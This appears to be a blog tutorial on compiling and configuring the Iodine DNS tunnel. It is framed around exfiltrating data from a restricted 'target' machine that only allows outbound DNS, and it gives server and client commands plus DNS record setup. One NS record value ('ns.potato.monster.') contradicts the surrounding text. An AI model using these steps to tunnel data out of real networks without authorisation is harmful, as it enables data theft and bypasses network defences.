 ```yaml
---
title: "Configuring Iodine"
date: 2021-05-19T10:08:56-08:00
draft: false
tags: 
- oob
- dns
- exfiltration
---
```



## Introduction
What is Iodine? Rather than defining it, let's start with an example. Let's say you have physical access to a box and you desperately need to exfiltrate some data. However, you quickly discover that you cannot connect outbound on any port except 53. Basic protocol checks prevent you from simply configuring an FTP server on port 53 of your cloud server. And to throw another wrench into the gears, it seems like they have locked you into a set of standard public DNS servers anyway. How will you get any data out through just DNS destined for Google or Cloudflare servers? This is where Iodine comes in. (Some have also noted Iodine's usefulness in getting free wifi on planes and in hotels but we are not doing this)

Iodine provides a DNS tunnel on which other protocols such as HTTP or FTP can piggy back, allowing us to upload files with just access to public DNS servers. For more information on how non-DNS data may be carried over DNS, see our previous 
{{<preview-link "https://svl.sh/oob-dns/" blogeronito>}} on out-of-band DNS. {{<preview-link "/2019/03/05/emoji-support/" emoji_page>}}

## What you need
- A domain. Grab one off Namecheap or Godaddy, to name a couple domain name registrars.
- A server to receive the DNS requests. A cloud server or virtual private server ("VPS") will be easiest, since it already has a public address and we won't need to port forward anything.
- A target. Probably one that has some painful networking restrictions.


## Step 1: Set up your server
First, create an Ubuntu server on your VPS provider of choice. On that server:
- Make sure you disable any conflicting DNS services on port 53. See other blogs on Linux sysadmin basics for more information on the command to use. Most likely, the following command will work:
```bash
systemctl stop systemd-resolved
```
You can also run `apt update` and `apt upgrade` as needed. This should not be an issue because you just made the VPS, and it should be a relatively new image. But it is good practice and may fix problems with outdated packages.

Let's compile and install the server binary (both the client and server binary are the same, just run with different arguments and flags).
First, clone the repository to your system.
```bash
git clone https://github.com/yarrick/iodine.git
```
Once the iodine repo is in your current directory, enter the directory with:
```bash
cd iodine
```
Ensure that you have the libz-dev installed. This library, used for data compression, is necessary for the compilation process (transporting data over DNS means that data compression is going to play a big role in maximizing throughput). Install the package using:
```bash
apt install libz-dev
```
Now we compile the app using:
```bash
make
```
And now install it (installing in general is moving files to the right locations for execution; here, we just move the compiled binary to a directory in the path). Use the command:
```bash
make install
```

##  Step 2: Configure your DNS entries
Next we need to ensure that DNS requests can reach our server. 
Our first entry will be to give our "DNS" server an FQDN. Go to your domain registrar's website and open the DNS settings for the domain you want to use.

We will start by adding an A record that will point to the IP of your hosted server. The entry should look something like the following, depending on your registrar's web site:
|Type |Host |Value | TTL |
|A Record | ns | IP Address | Auto |
An A record is one of the simplest types of records, and it determines what IP to direct traffic to when a certain hostname is requested. In this example, let's say you bought `testeroni.com`. The above record will direct any traffic destined for `ns.testeroni.com` to the IP address you specify. If you wanted another host on this domain, you can give it another name like `computer1` and it would be reachable on `computer1.testeroni.com`.

Now to get DNS traffic to our `ns.testeroni.com` host, we need to configure it to be the resolver for a subdomain we setup. For example, our subdomain can be called `s.testeroni.com`, any requests to resolve `[somehost].s.testeroni.com` will go to a specified name server. In this case, we will sit it to `ns.testeroni.com`.
|Type |Host |Value | TTL |
|NS Record | s | ns.potato.monster. | Auto |

Just as a recap, we have a subdomain called `s` of our domain `testeroni.com`. Any host information is specified before `s.testeroni.com`.

## Start up the server
```bash
iodined  -f -c -P [password] 192.168.77.1 s.testeroni.com
```
We will start with the `-f` option to start iodined in the foreground; this is going to help with troubleshooting. `-c` is used for compression, `-P` is to specify the password.
The IP address is the address you want for the *tunnel*. This should be a different subnet than your local network. You use these IPs to communicate between the two hosts through the tunnel. 

## Start the client program
```bash
iodine -f -P [password] s.testeroni.com
```
Here, we start the client program with a similar command, but note the lack of the d for daemon at the end. The client program will attempt to connect to the server using just DNS. Data will be encoded in the host section of the subdomain like so `[data].s.testeroni.com`.

## Test the connection
To test if the tunnel is configured properly, try using the following command from your client (and vice versa):
```bash
ping <tunnel-IP-of-server>
```
Any traffic that you need tunneled through DNS can simply be directed towards the server's tunnel IP. For specific application traffic to be forwarded, configure proxies (see http or SOCKS proxies) that will handle requests using the less restricted server side.

